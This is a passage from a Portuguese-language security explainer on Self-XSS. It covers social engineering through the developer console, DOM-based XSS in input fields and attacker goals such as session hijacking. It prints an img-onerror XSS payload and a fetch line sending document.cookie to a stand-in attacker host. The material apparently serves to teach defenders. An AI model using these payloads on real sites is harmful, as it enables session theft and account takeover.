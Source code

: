 Esta metodologia representa uma adaptação inteligente por parte dos atacantes. No passado, um ataque semelhante envolvia enganar os usuários para que colassem URLs com o prefixo `javascript:` na barra de endereços. Quando os fabricantes de navegadores implementaram salvaguardas para bloquear esta prática, os atacantes migraram para o próximo ambiente disponível que permitia a execução de código arbitrário no contexto da sessão do usuário: a consola de desenvolvedor. Esta evolução demonstra uma tendência mais ampla na cibersegurança, onde os atacantes se adaptam continuamente às defesas, procurando sempre o caminho de menor resistência. A consola de desenvolvedor, uma ferramenta essencial para depuração, tornou-se assim um alvo de alto valor para a engenharia social.

**Vetor 2: Campos de Entrada Vulneráveis**

O segundo vetor ocorre quando um usuário é enganado para colar um *payload* malicioso num campo de entrada aparentemente inofensivo numa página web. Exemplos comuns incluem campos em páginas de perfil (nome, biografia), barras de pesquisa ou formulários de contacto. Neste caso, a vulnerabilidade subjacente é tipicamente uma falha de *XSS Baseado em DOM* (*DOM-based XSS*), onde um *script* do lado do cliente processa a entrada do usuário de forma insegura, sem a devida validação ou codificação. O fluxo é o seguinte:
- **Identificação da Falha**: O atacante identifica um campo de entrada cujo conteúdo é processado por JavaScript do lado do cliente e inserido no DOM da página de forma insegura (por exemplo, usando a propriedade `innerHTML`).
- **Engenharia Social**: O atacante convence a vítima a colar um *payload* XSS (ex: `<img src=x onerror=alert(document.cookie)>`) nesse campo.
- **Execução**: O *script* do lado do cliente da aplicação pega no valor colado e insere-o no DOM, fazendo com que o navegador o interprete e execute o código malicioso.

A classificação do impacto do *Self-XSS* é frequentemente enganadora. Em muitas avaliações de segurança, que priorizam a explorabilidade técnica automatizada, uma vulnerabilidade que requer interação do usuário e engenharia social é classificada como de baixa probabilidade e, consequentemente, de baixo impacto. No entanto, esta classificação é um artefacto processual que ignora o vetor de ataque pretendido. Do ponto de vista de um ataque direcionado, o potencial de impacto é idêntico ao de um *XSS Refletido* ou *Armazenado* de alta severidade: o controlo total da conta do usuário. Portanto, é crucial reavaliar o risco do *Self-XSS*, considerando o elemento humano não como um obstáculo, mas como o próprio mecanismo de exploração.

### 1.2. Objetivos do Atacante e Payloads Potenciais

O objetivo final de um atacante vai muito além de um simples "hack". As consequências podem ser devastadoras e variadas, dependendo do *payload* executado.
- **Sequestro de Sessão (Session Hijacking)**: Este é o objetivo mais comum e poderoso. O *payload* é projetado para roubar o *cookie* de sessão ou os *tokens* de autenticação do usuário. Um *payload* típico pode ser tão simples como:
  ```javascript
  fetch('https://attacker-controlled-server.com/log?cookie=' + document.cookie);
  ```
  Uma vez que o atacante obtém o *cookie* de sessão, ele pode usá-lo para se passar pelo usuário, obtendo acesso total à sua conta sem precisar de credenciais.
- **Roubo de Credenciais**: Os atacantes podem injetar *scripts* que criam formulários de *login* falsos sobrepostos à página legítima ou que capturam as teclas digitadas (*keylogging*) para roubar nomes de usuário e senhas.
- **Execução de Ações Não Autorizadas**: O *script* executado pode realizar qualquer ação que o usuário esteja autorizado a fazer na aplicação. Isto inclui enviar mensagens em nome da vítima, alterar configurações da conta (como o email ou a senha), realizar transações financeiras fraudulentas ou apagar dados.
- **Exfiltração de Dados**: O *script* pode ler e enviar para o atacante quaisquer informações sensíveis visíveis na página, como nomes, moradas, números de telefone ou detalhes de cartão de crédito.
- **Propagação de Malware**: A conta comprometida pode ser usada para disseminar a própria armadilha de *Self-XSS* para os contactos da vítima, criando um efeito de propagação. Alternativamente, a vulnerabilidade pode ser usada para iniciar *downloads* de *malware* (*drive-by downloads*) no dispositivo do usuário.

